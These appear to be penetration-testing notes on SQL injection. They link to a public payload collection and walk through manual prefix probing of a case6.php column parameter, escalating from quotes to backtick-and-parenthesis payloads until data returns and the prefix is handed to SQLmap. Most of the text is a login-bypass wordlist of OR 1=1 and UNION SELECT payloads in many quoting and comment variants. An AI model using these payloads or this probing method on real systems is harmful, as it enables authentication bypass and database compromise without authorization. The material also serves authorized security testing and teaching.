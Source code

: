  - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
 - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass

Try also HTTP verb tampering - so try to send `GET` requests as `POST` and vice versa to test for insufficient filtering.

**Manual prefix testing**

 1. Testing `https://pentest-experts.com/case6.php?col=id'` = No output = Not sure if it worked
 2. Testing `https://pentest-experts.com/case6.php?col=id"` = No output = Not sure if it worked
 3. Testing `https://pentest-experts.com/case6.php?col=id%60` - SQL Error = Confirmed working but prefix not correct
 4. Testing `https://pentest-experts.com/case6.php?col=id%60+--+` - SQL Error = Confirmed working but prefix not correct, trying to add `)`
 5. Testing `https://pentest-experts.com/case6.php?col=id%60)+--+` - SQL Error = Confirmed working but prefix not correct, trying to add `)`
 6. Testing `https://pentest-experts.com/case6.php?col=id%60))+--+` - Some data output = Confirmed working, prefix correct, using `--prefix="%60))"` in SQLmap

 In case there is no error, I would try `')`, `'))`, ... and `")`, `"))`, ...

**Login bypass wordlist**

```
' OR 1=1-- 
' OR 1=1# 
' OR 1=1/* 
" OR 1=1-- 
" OR 1=1# 
" OR 1=1/* 
` OR 1=1-- 
` OR 1=1# 
` OR 1=1/* 
') OR 1=1-- 
') OR 1=1# 
') OR 1=1/* 
") OR 1=1-- 
") OR 1=1# 
") OR 1=1/* 
`) OR 1=1-- 
`) OR 1=1# 
`) OR 1=1/* 
' OR '1'='1 
" OR "1"="1 
` OR `1`=`1 
' UNION SELECT 1, 'admin', 'password'-- 
' UNION SELECT 1, 'admin', 'password'# 
' UNION SELECT 1, 'admin', 'password'/* 
" UNION SELECT 1, "admin", "password"--
" UNION SELECT 1, "admin", "password"# 
" UNION SELECT 1, "admin", "password"/* 
` UNION SELECT 1, `admin`, `password`-- 
` UNION SELECT 1, `admin`, `password`# 
` UNION SELECT 1, `admin`, `password`/* 
```
